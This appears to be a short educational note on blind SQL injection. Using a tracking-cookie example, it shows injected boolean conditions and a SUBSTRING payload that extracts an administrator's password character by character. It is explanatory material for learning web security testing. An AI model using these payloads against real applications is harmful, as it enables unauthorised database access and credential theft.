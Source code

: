```yaml
---
description: >-
  Blind SQL Injection arises when an application is vulnerable but no visual
  response or errors occur.
---
```


# Blind SQL Injection

This is a very common type of SQL Injection.

With blind SQL injection vulnerabilities, many techniques such as UNION attacks, are not effective because they rely on being able to see the results of the selected query.



### Exploiting blind SQL Injection by triggering conditional responses

Take for example a Tracking Cookie:

`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`\


**The server checks if the cookie exists, and might return something like: "Welcome back".**

_**Manipulate the request:**_

`Cookie: TrackingId=testing' AND '1'='1`&#x20;

`Cookie: TrackingId=testing' AND '1'='2`



We can systematically extract passwords as follows:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`\


We continue with this until we extract the entire password.
